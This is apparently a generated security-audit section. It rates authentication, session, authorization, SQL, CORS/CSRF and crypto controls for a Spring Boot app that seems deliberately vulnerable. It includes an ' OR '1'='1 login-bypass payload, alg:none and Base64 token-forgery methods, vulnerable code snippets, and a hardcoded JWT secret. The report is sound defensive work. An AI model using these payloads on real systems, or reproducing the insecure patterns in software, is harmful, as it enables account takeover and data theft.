_[§6](#6-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 25 total - 1 adequate, 3 partial, 14 weak, 0 unsafe, 7 missing. Linked threats: 46._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an MD5 password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 6.1 Security Control Overview

<!-- §6.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls) | 🔴 Missing | 6 routed findings; required controls not in<br/>place (e.g. Password-Based Authentication,<br/>Multi-Factor Authentication). |
| [6.3 Session and Token Controls](#63-session-and-token-controls) | 🟠 Weak | 0 routed findings; catalogued controls are<br/>weak (e.g. JWT Issuance and Verification,<br/>Session Management). |
| [6.4 Authorization Controls](#64-authorization-controls) | 🟠 Weak | 9 routed findings; catalogued controls are<br/>weak (e.g. Role-Based Access Control,<br/>Object-Level Authorization). |
| [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls) | 🟠 Weak | 2 routed findings; catalogued controls are<br/>weak (e.g. SQL Query Parameterization). |
| [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls) | 🔴 Missing | 2 routed findings; required controls not in<br/>place (e.g. Centralized Input Validation). |
| [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls) | 🟡 Partial | 0 routed findings; 1 partial control (e.g.<br/>Server-Side Template Encoding) leave gaps. |
| [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls) | 🔴 Missing | 2 routed findings; required controls not in<br/>place (e.g. CORS Policy, CSRF Protection). |
| [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection) | 🟠 Weak | 8 routed findings; catalogued controls are<br/>weak (e.g. Secret Management, Cryptographic<br/>Algorithm Selection). |
| [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls) | 🔴 Missing | 6 routed findings; required controls not in<br/>place (e.g. Server-Side Request Forgery<br/>Prevention, File Upload and Path<br/>Validation). |
| [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 4 routed findings; required controls not in<br/>place (e.g. Container Image Hardening,<br/>Dependency Version Management). |
| [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls) | 🟠 Weak | 0 routed findings; catalogued controls are<br/>weak (e.g. WebSocket Security). |
| [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §6.1 MECHANICAL-FROZEN END -->

### 6.2 Identity and Authentication Controls


**Systemic weaknesses:** [W-001](#w-001)
**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.2.1 Password-Based Authentication](#password-based-authentication)
- [6.2.2 Multi-Factor Authentication](#multi-factor-authentication)

**Implemented controls:** Spring Security form-based login with BCrypt password hashing on the main registration path; JWT issuance on successful authentication.

**Assessment:** Three parallel authentication mechanisms coexist - the main Spring Security BCrypt/JWT path, a legacy SQLite path with cleartext password storage, and a homegrown Base64 session-token path. Only the main path uses a sound primitive; the two legacy paths each provide independent authentication bypasses. MFA is absent across all three paths. Each successful flow above terminates in the server issuing a session token; the signing, validation, propagation, storage, and lifecycle of that token are described in [§6.3 Session and Token Controls](#63-session-and-token-controls).

<!-- §6.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§6.3 Session and Token Controls](#63-session-and-token-controls) and password hashing under [§6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|----------|-----------|------------------------------------------------|
| User registration | 🔴 Critical | [§6.2](#62-identity-and-authentication-controls) | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)<br/>[W-005](#w-005) — Security-sensitive data uses weak cryptographic primitives |
| Password login | 🟠 Weak | [§6.2](#62-identity-and-authentication-controls) | 🟠 [F-038](#f-038) — No Rate Limiting on Auth Endpoints Enables Credential Stuffing |
| Password storage (hashing) | 🟠 High | [§6.9](#69-cryptography-secrets-and-data-protection) | [W-005](#w-005) — Security-sensitive data uses weak cryptographic primitives |
| JWT / bearer-token session | 🟠 Weak | [§6.3](#63-session-and-token-controls) | 🔴 [F-003](#f-003) — Insecure JWT Verification<br/>🔴 [F-048](#f-048) — JWT verification does not pin the accepted algorithm |
| Multi-factor authentication (TOTP / 2FA) | 🔴 Missing | [§6.2](#62-identity-and-authentication-controls) | - |

_Also checked, not detected on this codebase: Password reset / change, Session-token storage, OAuth / OIDC federated login._

<!-- §6.2 AUTH-MECHANISMS-FROZEN END -->

<a id="password-based-authentication"></a>
#### 6.2.1 Password-Based Authentication

**Status:** 🟠 Weak - BCrypt is used on the main registration and login path, but MD5 bypasses and raw SQL injection in the legacy path defeat the overall authentication boundary; no endpoint carries rate limiting.

Spring Security's `UserDetailsService` backs the primary login surface at `POST /login`, hashing passwords with BCrypt on registration and verifying them on login. A legacy path serves the same credential function through `/login-raw` and `/users`, handled by `LegacySqliteAuthController.java`, which queries a separate SQLite file at `runtime/legacy-auth.sqlite`.

The diagram shows the main Spring Security password-login flow:



**Security assessment**

Three independent weaknesses compromise the password path:

- `RegistrationController.java:55` writes an MD5 hash into the `AppUser` entity alongside the BCrypt hash - a database dump yields MD5 hashes recoverable with GPU-based cracking in seconds.
- `LegacySqliteUserStore.java:64` builds its authentication query by string concatenation; a `' OR '1'='1` payload in the username field returns the first row and bypasses credential verification entirely.
- `SecurityConfig.java:30` applies no rate-limiting configuration to any authentication endpoint, leaving all three auth paths open to unrestricted credential stuffing.

**Relevant findings**

- 🔴 [F-003 — Insecure JWT Verification](#f-003) — Insecure JWT verification on `LegacyJwtVerifier.java` allows a forged or unsigned token to pass authentication on JWT-protected routes.
- 🟠 [F-017 — Base64 Session Token Forgeable for Any User](#f-017) — The homegrown Base64 session token encodes only the username without a secret, letting any caller construct a valid token for any account.
- 🟠 [F-030 — MD5 Password Hash Used in Registration Path](#f-030) — MD5 hash stored in `RegistrationController.java:55` alongside BCrypt yields recoverable plaintext from any H2 database dump.

<a id="multi-factor-authentication"></a>
#### 6.2.2 Multi-Factor Authentication

**Status:** 🔴 Missing - no second-factor enrollment or verification mechanism exists anywhere in the codebase.

Multi-factor authentication requires users to prove identity with a possession or biometric factor in addition to a password, limiting the impact of credential theft. Login flows for all privilege levels - including admin accounts - terminate after a single password check.

**Security assessment**

No TOTP enrollment endpoint, OTP delivery path, possession-factor challenge, or MFA enforcement policy was found in the Spring Security configuration or the application controllers. Given that `LegacySqliteUserStore.java:37` stores passwords in cleartext and `HomegrownSessionService.java:21` issues forgeable tokens, the absence of a second factor means any credential exposure yields immediate account takeover with no residual protective layer.

**Relevant findings**

- 🔴 [F-003 — Insecure JWT Verification](#f-003) — Without MFA, JWT forgery on `LegacyJwtVerifier.java` grants unrestricted route access with no fallback control.
- 🟠 [F-017 — Base64 Session Token Forgeable for Any User](#f-017) — Without MFA, a forged Base64 session token grants full account impersonation — no second factor interrupts the path.
- 🟠 [F-030 — MD5 Password Hash Used in Registration Path](#f-030) — Without MFA, a cracked MD5 hash from `RegistrationController.java:55` is immediately usable for account access.

The three parallel authentication paths that each converge on session-token issuance are shown in the following overview:



### 6.3 Session and Token Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.3.1 JWT Issuance and Verification](#jwt-issuance-and-verification)
- [6.3.2 Session Management](#session-management)

**Implemented controls:** Spring Security-backed JWT issuance on the main login path using a signing key read from the environment; token expiry configuration in `application.yml`.

**Assessment:** This application uses a locally-signed JWT for the main authenticated session, regardless of the login flow in [§6.2](#62-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance and validation on every protected request. A parallel homegrown session-token path (`HomegrownSessionService.java`) operates entirely outside the JWT lifecycle with no cryptographic protection.

<a id="jwt-issuance-and-verification"></a>
#### 6.3.1 JWT Issuance and Verification

**Status:** 🟠 Weak - the main path signs JWTs with a configured key, but `LegacyJwtVerifier.java` accepts unsigned tokens and does not pin the accepted algorithm.

JWTs are issued on successful form-based login and presented as Bearer tokens on subsequent requests. `LegacyJwtVerifier.java` handles token validation for all JWT-protected routes, calling into the JJWT library.

The diagram shows the intended JWT issuance and verification flow:



**Security assessment**

Two verification weaknesses break the JWT boundary:

- `LegacyJwtVerifier.java:15` calls `parseClaimsJwt()` instead of `parseClaimsJws()`. `parseClaimsJwt()` accepts unsecured (unsigned) JWTs, so a caller can submit a token with `alg:none` and pass verification without a valid signature.
- `LegacyJwtVerifier.java:17` passes no `algorithms` allowlist to the verifier, so the algorithm named in the attacker-controlled JWT header is trusted implicitly - enabling algorithm confusion attacks if the signing key is ever changed.

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="session-management"></a>
#### 6.3.2 Session Management

**Status:** 🟠 Weak - the homegrown session token is a Base64-encoded username with no signing, no expiry, and no revocation mechanism.

The main Spring Security session issues a JWT with a configured expiry interval. A parallel session path uses `HomegrownSessionService.java`, which generates tokens for callers using the legacy authentication surface and validates them on subsequent requests.

**Security assessment**

Two independent weaknesses undermine session management:

- `HomegrownSessionService.java:21` constructs the session token as `Base64.encode(username)` - no secret, no HMAC, no signature. Any caller who knows a target username constructs a valid session token for that account without server interaction.
- Homegrown session tokens carry no expiry timestamp and no server-side revocation table, so a stolen token remains valid indefinitely until the application restarts.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 6.4 Authorization Controls


**Systemic weaknesses:** [W-003](#w-003)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.4.1 Role-Based Access Control](#role-based-access-control)
- [6.4.2 Object-Level Authorization](#object-level-authorization)

**Implemented controls:** Spring Security `SecurityConfig` with role-scoped `permitAll` / `authenticated` request matchers; `@PreAuthorize("hasRole('ADMIN')")` on selected admin UI controllers.

**Assessment:** Role-based rules in `SecurityConfig.java` cover the primary user flows, but bulk-permit rules for the crypto API surface, the H2 console, and the admin report endpoint bypass the role model entirely. Object-level authorization is absent on resource-fetch endpoints - any authenticated caller can read any other user's orders or profile by guessing an integer ID.

<a id="role-based-access-control"></a>
#### 6.4.1 Role-Based Access Control

**Status:** 🟠 Weak - role checks are present on selected admin UI routes, but crypto, H2 console, and admin report endpoints are publicly accessible regardless of role.

Spring Security defines `ROLE_USER` and `ROLE_ADMIN` roles. Admin UI pages in `web.*` carry `@PreAuthorize("hasRole('ADMIN')")` annotations. The `SecurityConfig.java` filter chain adds per-path matchers that map these roles to request patterns.

**Security assessment**

Three paths bypass the role model in `SecurityConfig.java`:

- Line 45 adds `.requestMatchers("/api/crypto/**", "/api/legacy-crypto/**").permitAll()` - all cryptographic service endpoints, including the plaintext credential-recovery endpoint at `GET /api/legacy-crypto/credentials`, are reachable without any credential.
- Line 32 opens `/h2-console/**` to all traffic - the H2 in-memory database console accepts arbitrary SQL from unauthenticated callers.
- Line 34 marks `GET /api/admin/report` as `permitAll`, exposing the admin report to anonymous callers.

**Relevant findings**

- 🔴 [F-013 — Mass Assignment Privilege Escalation](#f-013) — Mass assignment on `PUT /api/profile/me` in `ProfileController.java:44` allows a user to set their own `role` field to `ADMIN` by including it in a crafted JSON body, bypassing the role model entirely.
- 🔴 [F-014 — All Crypto Endpoints Exposed Without Authentication](#f-014) — All crypto endpoints accessible without authentication expose key-material recovery and arbitrary encryption operations to anonymous callers via `SecurityConfig.java:45`.
- 🔴 [F-016 — H2 Database Console Publicly Exposed](#f-016) — The H2 console accessible at `/h2-console/**` without authentication allows direct SQL execution against the application database via `SecurityConfig.java:32`.

<a id="object-level-authorization"></a>
#### 6.4.2 Object-Level Authorization

**Status:** 🟠 Weak - resource endpoints restrict access to authenticated users but do not verify the requesting user owns the fetched resource.

Customer orders and user profiles are bound to individual accounts. `OrderAccessController.java` and `UserAccessController.java` require an authenticated session before serving responses, implementing authentication-gated access.

**Security assessment**

Two ownership-check gaps on resource endpoints:

- `OrderAccessController.java:24` fetches the order by integer ID (`GET /api/orders/{id}`) without comparing the order's owner email to the authenticated principal - any logged-in user iterates IDs to read all customer orders.
- `UserAccessController.java:22` serves the full `AppUser` record for any ID (`GET /api/users/{id}`) without restricting the caller to their own record, exposing email, role, and profile fields across all accounts.

**Relevant findings**

- 🔴 [F-013 — Mass Assignment Privilege Escalation](#f-013) — Mass assignment on `ProfileController.java:44` is a companion boundary failure: write access to the role field lacks the same ownership verification absent from read endpoints.
- 🔴 [F-014 — All Crypto Endpoints Exposed Without Authentication](#f-014) — Crypto endpoints exposed without authentication demonstrate that the authorization model is not applied consistently across the API surface.
- 🔴 [F-016 — H2 Database Console Publicly Exposed](#f-016) — The H2 console allows direct SQL reads of the `AppUser` and `CustomerOrder` tables without the endpoint-level authorization checks on `OrderAccessController` and `UserAccessController`.

### 6.5 Query Construction and Data Access Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.5.1 SQL Query Parameterization](#sql-query-parameterization)

**Implemented controls:** Spring Data JPA repository interfaces with JPQL parameterized queries on the main data access paths; `EntityManager.createNativeQuery()` with positional parameters on the safe `clean.*` counterexample paths.

**Assessment:** Parameterized queries are used on the clean-path repositories but bypassed on two production data-access objects where raw string concatenation builds the SQL string passed to the database.

<a id="sql-query-parameterization"></a>
#### 6.5.1 SQL Query Parameterization

**Status:** 🟠 Weak - safe JPA parameterized paths exist alongside raw SQL string concatenation in the legacy auth and order lookup DAOs.

Spring Data JPA backs the primary relational data access layer through generated JPQL queries. The `clean.*` package provides safe counterexamples using `@Query` with named parameters. Two legacy data-access objects opt out of this model and build SQL strings directly from user-supplied values.

**Security assessment**

Two injection-vulnerable raw SQL sinks:

- `LegacySqliteUserStore.java:64` builds the authentication query by concatenating the `username` parameter directly into the SQL string; a `' OR '1'='1` payload returns the first row and authenticates the caller as the first user in the database without a correct password.
- `OrderLookupDao.java:22` calls `entityManager.createNativeQuery()` with a concatenated `ownerEmail` string; a crafted payload reads arbitrary order rows across account boundaries.

The raw concatenation pattern at the legacy auth sink is:

```java
String sql = "SELECT * FROM legacy_users WHERE username = '" + username + "'";
```

**Relevant findings**

- 🔴 [F-005 — SQL Injection in Legacy Auth Endpoint](#f-005) — SQL injection in the legacy auth endpoint returns the first database row without password verification, enabling authentication bypass.
- 🔴 [F-006 — SQL Injection](#f-006) — SQL injection in `OrderLookupDao.java:22` allows cross-user data access via a crafted email parameter.

### 6.6 Input Boundary Validation Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.6.1 Validation Approach](#validation-approach)
- [6.6.2 Centralized Input Validation](#centralized-input-validation)

**Implemented controls:** Spring MVC `@Valid` and JSR-380 bean-validation annotations on selected request DTOs; Spring Boot `multipart.max-file-size` in `application.yml`.

**Assessment:** Bean validation on individual DTOs provides per-field type checks but leaves rate-sensitive and file-access endpoints unguarded. No centralized validation interceptor or filter covers the full request pipeline.

<a id="validation-approach"></a>
#### 6.6.1 Validation Approach

**Status:** 🟠 Weak - bean validation is present on selected DTOs but absent from rate-sensitive endpoints and the file-read path, which has no size guard.

Spring MVC processes incoming requests through `DispatcherServlet`. Controllers with `@Valid` on method parameters invoke JSR-380 bean-validation constraints for those request bodies. The Spring Boot multipart configuration sets an upload size limit via `spring.servlet.multipart.max-file-size`.

**Security assessment**

Two boundary failures in the validation coverage:

- `CryptoController.java:39` and `OrderSearchController.java:24` are both declared `permitAll` in `SecurityConfig.java` with no per-IP or per-account rate-limiting configuration - a single caller floods either endpoint without restriction.
- `FileReadController.java:22` reads the entire file at the caller-supplied path and streams it in the response with no size guard; a path pointing at a large file exhausts the JVM heap.

**Relevant findings**

- 🟠 [F-001 — Missing Rate Limiting on Public Endpoints](#f-001) — Missing rate limiting on `CryptoController.java:39` and `OrderSearchController.java:24` enables denial-of-service via unbounded request volumes.
- 🟠 [F-039 — Unbounded File Read Exhausts JVM Heap via Path Traversal](#f-039) — Unbounded file read on `FileReadController.java:22` allows heap exhaustion via a path-traversal payload that resolves to a large file.

<a id="centralized-input-validation"></a>
#### 6.6.2 Centralized Input Validation

**Status:** 🔴 Missing - no centralized validation servlet filter or Spring `HandlerInterceptor` covers the full request pipeline.

Centralized input validation applies common rules - size limits, character allowlists, rate limits - via a single filter that covers all endpoints, reducing the per-controller burden and closing gaps when new endpoints are added without explicit validation annotations.

**Security assessment**

No cross-cutting validation filter or interceptor exists. Each endpoint is individually responsible for validation; controllers without explicit `@Valid` annotations receive raw, unvalidated input. `SecurityConfig.java` does not register any request-size or rate-limiting filter, and no Spring Boot auto-configuration for cross-cutting rate limiting is present.

**Relevant findings**

- 🟠 [F-001 — Missing Rate Limiting on Public Endpoints](#f-001) — Missing rate limiting is the direct result of no centralized rate-control layer across the request pipeline.
- 🟠 [F-039 — Unbounded File Read Exhausts JVM Heap via Path Traversal](#f-039) — Unbounded file read is enabled by the absence of a centralized size guard at the filter level, not just the controller level.

### 6.7 Output Encoding and Rendering Controls

**Verdict:** 🟡 Partial

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.7.1 Server-Side Template Encoding](#server-side-template-encoding)

**Implemented controls:** Thymeleaf HTML template auto-escaping via standard `${...}` expressions on all server-rendered HTML output paths.

**Assessment:** Thymeleaf auto-escaping is active on the main HTML rendering path and prevents reflected XSS in template-rendered output. `OutputPreviewController.java` exposes a `/plain-preview` endpoint that writes response content directly outside the Thymeleaf context, bypassing the escaping layer for that path.

<a id="server-side-template-encoding"></a>
#### 6.7.1 Server-Side Template Encoding

**Status:** 🟡 Partial - Thymeleaf auto-escaping is active on all HTML template paths, but the plain-text preview endpoint writes content outside the template context with no encoding.

Thymeleaf backs the server-rendered HTML views throughout the application. Standard `${...}` expressions in `.html` template files are HTML-escaped by default. `OutputPreviewController.java` exposes two output modes: an HTML template-rendered preview at `/preview` and a direct plain-text response at `/plain-preview`.

**Security assessment**

Thymeleaf's default auto-escaping prevents XSS on all standard `${...}` template expressions. `OutputPreviewController.java:24` (`GET /plain-preview`) writes the response body as a plain-text string outside any Thymeleaf template context; if that path renders user-supplied content in an HTML-adjacent context or is later moved to an HTML response type, the encoding protection is absent.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 6.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.8.1 CORS Policy](#cors-policy)
- [6.8.2 CSRF Protection](#csrf-protection)
- [6.8.3 Security Response Headers](#security-response-headers)

**Implemented controls:** Spring Security default security headers (X-Content-Type-Options: nosniff, X-Frame-Options: DENY) emitted on all responses via the `HeadersConfigurer`.

**Assessment:** Spring Security's default response headers are present, but CSRF protection is explicitly disabled in `SecurityConfig.java:28` and `CorsPolicyFilter.java` reflects any incoming `Origin` header verbatim. No Content-Security-Policy is configured.

<a id="cors-policy"></a>
#### 6.8.1 CORS Policy

**Status:** 🟠 Weak - `CorsPolicyFilter.java` reads the incoming `Origin` header and copies it into `Access-Control-Allow-Origin` without validating against an allowlist.

The CORS filter at `CorsPolicyFilter.java` runs before the Spring Security filter chain. Its role is to add cross-origin response headers that instruct browsers on which origins may read API responses. The filter reads the `Origin` request header and sets the response accordingly.

**Security assessment**

`CorsPolicyFilter.java:32` echoes the `Origin` request header as `Access-Control-Allow-Origin: <origin>`, effectively permitting any origin. The same filter sets `Access-Control-Allow-Credentials: true`, making the bypass actionable - a cross-origin attacker page can issue credentialed requests to the API and read session-tied responses without any browser restriction.

**Relevant findings**

- 🟠 [F-018 — Permissive CORS Origin Reflection](#f-018) — CORS origin reflection at `CorsPolicyFilter.java:32` allows any cross-origin caller to read authenticated API responses, including session-tied data.
- 🟠 [F-019 — CSRF Protection Disabled Application-Wide](#f-019) — CSRF disabled application-wide removes the last same-origin barrier for state-changing requests, compounding the CORS gap.

<a id="csrf-protection"></a>
#### 6.8.2 CSRF Protection

**Status:** 🔴 Missing - Spring Security CSRF protection is explicitly disabled application-wide in `SecurityConfig.java:28`.

Spring Security's built-in CSRF filter generates synchronizer tokens that must accompany all state-changing requests. This token prevents cross-origin pages from submitting valid requests on behalf of an authenticated user. The application security configuration removes this protection with a single call.

The configuration that disables CSRF application-wide is:

```java
http.csrf(csrf -> csrf.disable())
```

**Security assessment**

`SecurityConfig.java:28` calls `.csrf(csrf -> csrf.disable())`. Every state-changing endpoint - profile updates at `PUT /api/profile/me`, order creation, document release at `POST /{id}/release`, admin user management - is reachable via a cross-origin form POST without a CSRF token. Combined with the permissive CORS policy in `CorsPolicyFilter.java:32`, a malicious page can perform arbitrary authenticated actions on behalf of any logged-in user.

**Relevant findings**

- 🟠 [F-018 — Permissive CORS Origin Reflection](#f-018) — CORS origin reflection combined with CSRF disabled allows any cross-origin page to issue credentialed state-changing requests against all authenticated endpoints.
- 🟠 [F-019 — CSRF Protection Disabled Application-Wide](#f-019) — CSRF disabled in `SecurityConfig.java:28` is the structural root of the same-origin boundary failure across the entire application.

<a id="security-response-headers"></a>
#### 6.8.3 Security Response Headers

**Status:** 🟡 Partial - Spring Security default headers (X-Content-Type-Options, X-Frame-Options) are active but no Content-Security-Policy header is configured.

Spring Security's `HeadersConfigurer` adds security headers to all HTTP responses by default without requiring explicit configuration. The resulting header set includes `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, and cache-control directives.

**Security assessment**

Default Spring Security headers block MIME-sniffing and clickjacking. No `Content-Security-Policy` header is configured anywhere in `SecurityConfig.java` or the filter chain, leaving the browser without a script-source allowlist. Any user-controlled content that reaches an HTML rendering context can execute injected scripts without a browser-enforced policy restriction.

**Relevant findings**

- 🟠 [F-018 — Permissive CORS Origin Reflection](#f-018) — CORS origin reflection is not mitigated by any security header; a Content-Security-Policy would limit the impact of any XSS injection reaching an HTML rendering context.
- 🟠 [F-019 — CSRF Protection Disabled Application-Wide](#f-019) — CSRF disabled means security headers are the only browser-side control layer — and that layer has a material gap in the missing CSP.

### 6.9 Cryptography Secrets and Data Protection


**Systemic weaknesses:** [W-004](#w-004), [W-005](#w-005)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.9.1 Secret and Key Management](#secret-and-key-management)
- [6.9.2 Cryptographic Algorithm Selection](#cryptographic-algorithm-selection)

**Implemented controls:** Spring Security BCrypt for the main-path password storage in the H2 `AppUser` table; Java standard library JCA/JCE for cryptographic operations.

**Assessment:** The main Spring Security BCrypt path is sound. Five separate homegrown crypto artifacts - repeating-key XOR, AES/ECB without IV, unsalted MD5 hashing, a predictable PRNG-based OTP, and hardcoded secrets in the `Dockerfile` - undermine every other cryptographic guarantee in the application.

<a id="secret-and-key-management"></a><a id="secret-management"></a>
#### 6.9.1 Secret and Key Management

**Status:** 🟠 Weak - the JWT signing key, AWS credentials, and XOR cipher key are all hardcoded at build time and cannot be rotated without a code or image change.

⚠ **Anti-pattern:** Secrets hardcoded in source

Signing and encryption keys should be read from a runtime secrets manager and injected via environment variables at container start. `SecurityConfig.java` reads `JWT_SIGNING_KEY` from the environment. `HomegrownCipher.java` and `LegacyCryptoService.java` embed their keys as class-level string literals.

**Security assessment**

Three hardcoded secret locations:

- `Dockerfile:13` sets `ENV JWT_SIGNING_KEY=hardcoded-legacy-jwt-secret`, `AWS_ACCESS_KEY_ID=AKIA**** (20 chars)`, and `AWS_SECRET_ACCESS_KEY` as image-layer environment variables - anyone who pulls the image reads all three values in `docker inspect`.
- `HomegrownCipher.java:8` assigns the XOR cipher key as a string literal in the class body; any developer with repository read access derives all tokens produced by that key.
- `LegacyCryptoService.java:13` hardcodes the AES symmetric key as a string literal; the key cannot be rotated without a code change and image rebuild.

**Relevant findings**

